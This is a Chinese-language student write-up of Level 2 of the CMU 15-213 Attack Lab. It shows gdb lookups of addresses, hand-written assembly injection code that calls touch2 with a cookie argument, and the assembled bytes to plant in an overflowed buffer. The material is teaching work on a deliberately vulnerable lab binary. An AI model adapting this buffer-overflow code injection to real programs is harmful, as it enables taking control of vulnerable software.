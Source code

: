 ### Level 2

需要注入一小段代码，作为exploit string的一部分

> Within the file `ctarget` there is code for a function `touch2` having the following C representation:
> ![touch2](https://s2.loli.net/2025/08/17/sX8wJCQLAl53W9c.png)
>
> Your task is to get `CTARGET` to execute the code for `touch2` rather than returning to `test`. In this case, however, you must make it appear to `touch2` as if you have passed your cookie as its argument.
> 
> Do not attempt to use `jmp` or `call` instructions in your exploit code. The encodings of destination addresses for these instructions are difficult to formulate. Use `ret` instructions for all transfers of control, even when you are not returning from a call.

简单的用中文说，就是通过返回值调用touch2，同时传入参数——我们自己的cookie，限制使用jmp和call


首先查询cookie的地址值，touch2的地址值
```shell
(gdb) p/x &cookie
$20 = 0x6044e4
(gdb) p touch2 
$21 = {void (unsigned int)} 0x4017ec <touch2>
```

然后尝试去编写注入代码
```assembly
movq    $59b997fa, %rdi #或movq 0x6044e4 %rdi
pushq   $0x4017ec
ret
```

```assembly
main:
        movq	$0x59b997fa, %rdi
        pushq	$0x4017ec
        ret
```
然后编译并objdump
```shell
ubuntu@VM-0-8-ubuntu:~/learnning_project/CMU-15213/src/Attack-Lab$ gcc -c injection.l2.s 
ubuntu@VM-0-8-ubuntu:~/learnning_project/CMU-15213/src/Attack-Lab$ objdump -d injection.l2.o

injection.l2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <main>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          push   $0x4017ec
   c:   c3                      ret    
```
将dump出的机械码写入答案，也就是getbuf写入函数的顶部,然后40个字节处写下rsp在调用gets时的地址值即可。
